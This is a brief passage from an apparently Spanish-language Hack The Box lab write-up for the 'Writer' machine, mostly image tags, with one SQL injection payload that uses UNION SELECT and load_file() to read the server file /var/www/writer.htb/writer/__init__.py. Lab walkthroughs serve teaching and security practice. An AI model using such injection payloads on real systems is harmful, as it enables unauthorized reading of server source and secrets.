 <img src="/assets/images/htb-writeup-writer/img25.png">
</p>

Viendo este script encontramos un ```__init__.py```, el cual, si leemos

 - ```' union select 1,load_file("/var/www/writer.htb/writer/__init__.py"),3,4,5,6 -- -```

<p align="center">
<img src="/assets/images/htb-writeup-writer/img26.png">
</p>
